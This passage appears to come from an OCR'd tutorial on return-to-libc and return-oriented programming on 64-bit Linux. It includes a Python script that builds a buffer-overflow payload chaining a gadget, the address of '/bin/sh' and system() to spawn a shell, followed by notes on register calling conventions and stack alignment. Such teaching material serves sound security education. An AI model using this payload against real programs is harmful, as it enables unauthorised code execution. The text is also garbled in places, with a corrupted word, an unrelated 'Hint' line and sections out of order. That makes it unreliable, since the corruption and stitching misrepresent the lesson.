 Putting everything together, we have an attack that looks very similar to how
we exploited the 32-bit binary. The bi\***_G_** difference is that added the additional
step to call our gadget and load the address of "/bin/sh" into `rdi`.

```python
#file: rop.py
#output: r64.in
import struct
import sys

gadget_addr = 0x00000000004005b3
buff_addr = 0x7fffffffd560
ret_addr = 0x7fffffffd5a8
command_addr = 0x7ffff7b99d57
system_addr = 0x7ffff7a52390

padding_len = ret_addr - buff_addr

sys.stdout.write('a'*padding_len+struct.pack("<Q", gadget_addr) + struct.pack("<Q", command_addr)+ struct.pack("<Q", system_addr))

```

We got lucky in this case because we only needed to use a single gadget to set
up our register. In many cases, we may have to string together multiple gadgets
into a single **ROP chain** to achieve the desired results---for example,
imagine what we'd need to do if we are calling a function that requires
multiple arguments.

Hint: Make sure to read every character, in order, top to bottom.

## Return-to-libc on 64-bit Systems

When we move to 64-bit systems, the return-to-libc attack becomes more complex due to two key differences:

1. **Different Calling Convention**: In 64-bit systems, arguments are passed via registers rather than the stack:

   - First argument: RDI
   - Second argument: RSI
   - Third argument: RDX
   - Fourth argument: RCX
   - Fifth argument: R8
   - Sixth argument: R9
   - Additional arguments are passed on the stack

2. **Stack Alignment Requirements**: The System V ABI for x86-64 requires the stack to be 16-byte aligned at the point of a function call. After the `call` instruction executes (which pushes the 8-byte return address), the stack pointer will be at an address that is 16-byte aligned plus 8. If this alignment isn't maintained, the program may crash when executing certain instructions like `movaps`.

### Return-Oriented Programming (ROP)
